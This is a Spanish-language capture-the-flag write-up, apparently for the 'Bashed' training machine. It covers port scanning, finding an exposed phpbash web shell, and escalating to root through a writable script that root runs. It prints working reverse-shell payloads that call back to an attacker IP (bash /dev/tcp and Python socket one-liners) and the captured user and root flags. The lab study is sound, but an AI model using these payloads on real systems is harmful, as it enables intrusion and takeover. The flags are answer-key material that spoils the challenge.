 ![[Pasted image 20250705153021.png]](bashed-images/20250705153021.png)

# Nmap

>iniciamos con un escaneo basico de puertos con nmap

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.129.197.9 -oN scanner
```

![[20250705135441.png]](bashed-images/20250705135441.png)

>Continuamos con un escáner con scripts básicos para sacar servicios y versiones

```bash
nmap -p80 -sCV 10.129.197.9 -oN targeted
```

![[20250705135536.png]](bashed-images/20250705135536.png)

# Puerto 80

>revisamos que hay en la pagina web que corre por el puerto 80

![[20250705135627.png]](bashed-images/20250705135627.png)

>revisamos la web pero a primera vista no hay gran cosa 

![[20250705135759.png]](bashed-images/20250705135759.png)

lo que si que vemos en la pagina web es que hay algun tipo de consola interactiva en la URL IP/uploads/phpbash.php

![[ 20250705135903.png]](bashed-images/20250705135903.png)

>pero al acceder no funciona la pagina por lo que podemos entender que si aun existe ya no esta en el directorio uploads

![[ 20250705135956.png]](bashed-images/20250705135956.png)

>Nos indican un repositorio github donde parece que explican el funcionamiento de esta herramienta y tenemos un usuario a la vista "Arrexel"


![[ 20250705140110.png]](bashed-images/20250705140110.png)

vemos que tiene dos programas que hacen lo mismo phpbash.php y phpbash.min.php que se encuentran en el  navegador


## Gobuster

>Utilizamos gobuster para buscar directorios en la pagina web

```bash
gobuster dir -u 10.129.197.9 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt,py,sh -t 40
```

![[ 20250705140304.png]](bashed-images/20250705140304.png)

>Nos devuelve varios directorios y tras explorarlos un poco encontramos en dev lo siguiente:

![[ 20250705140342.png]](bashed-images/20250705140342.png)

>Hemos encontrado la consola interactiva

## phpbash.php

![[ 20250705140421.png]](bashed-images/20250705140421.png)

tratamos de mandar un ping a ver si la consola es capaz de interactuar con mi equipo

>Desde nuestra terminal nos ponemos en escucha de paquetes


```bash
tcpdump -i any icmp
```

![[20250705140711.png]](bashed-images/20250705140711.png)

y desde phpbash.php lanzamos el ping

```bash
ping -c 1 10.10.14.155
```

![[20250705140758.png]](bashed-images/20250705140758.png)

vemos que el paquete se tramita

![[20250705140816.png]](bashed-images/20250705140816.png)

y en  nuestra terminal recibimos la petición

por lo que es momento de tratar de enviar una shell


## Shell

>probamos a lanzar una shell con bash 

```bash
bash -c "bash -i &> /dev/tcp/192.168.1.175/1234 0>&1" 
```

mientras en nuestra terminal la esperamos con 

```bash
nc -nlvp 1234
```



![[20250705141401.png]](bashed-images/20250705141401.png)

>La shell parece mandarse pero no recibimos nada por el puerto en escucha


revisamos si tiene python instalado 

```bash
which python
```

![[20250705141439.png]](bashed-images/20250705141439.png)

>comprobamos que si lo tiene

probamos lanzar una shell con python hacia nuestro puerto en escucha

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.155",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![[20250705145256.png]](bashed-images/20250705145256.png)

>ahora si que tenemos la shell en nuestra terminal 

### Sanitizar la shell

> como sabemos que tiene python vamos a utilizarlo para sanitizar la shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

>ctrl + Z

```bash
stty raw -echo; fg
```

```bash
export TERM=xterm
```

```bash
stty rows 36 columns 140
```

>ahora si con una shell mas practica ya podemos trabajar

## Escalada de privilegios

>Utilizamos sudo -l y asi hacemos el primer reconocimiento

```bash
sudo -l
```

![[20250705145632.png]](bashed-images/20250705145632.png)

vemos que podemos usar el usuario scriptmanager sin contraseña

así que vamos a ver que podemos hacer con este usuario

>pivotamos al usuario scriptmanager

```bash
sudo -u scriptmanager /bin/bash -i
```

>Al explorar el directorio home encontramos el usuario arrexel el cual contiene la primera flag 

![[20250705145939.png]](bashed-images/20250705145939.png)

>seguimos explorando y vemos un archivo en la / raiz llamado scripts del cual somos propietarios con el usuario actual

![[20250705150044.png]](bashed-images/20250705150044.png)

![[20250705150103.png]](bashed-images/20250705150103.png)

>investigamos el archivo test.py

![[20250705150140.png]](bashed-images/20250705150140.png)


>vemos que genera un archivo .txt que como vimos en el directorio scripts el propietario es root por lo que suponemos que root es quien crea ese archivo

>Creamos un pequeño script de python para tratar de inyectar una shell que al ser creada por root esperemos que nos de esa shell con usuario root

![[20250705150402.png]](bashed-images/20250705150402.png)

```python
import socket, subprocess, os;

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM);
s.connect(("10.10.14.155",6666));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);

f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

>Nos ponemos en escucha para ver si recibimos la shell


```bash
nc -nlvp 6666
```

>lanzamos el script de python

```bash
python test.py
```

![[20250705151139.png]](bashed-images/20250705151139.png)

>Y ahi tenemos la shell como root

>vamos al directorio principal de root y ahi podemos ver la flag

![[20250705151252.png]](bashed-images/20250705151252.png)

# Flags

user.txt = 59f508119c6a8ff7a2f51be2dffccea1

root.txt = 7879c3fb5f18ec2c8e923829e742e83e
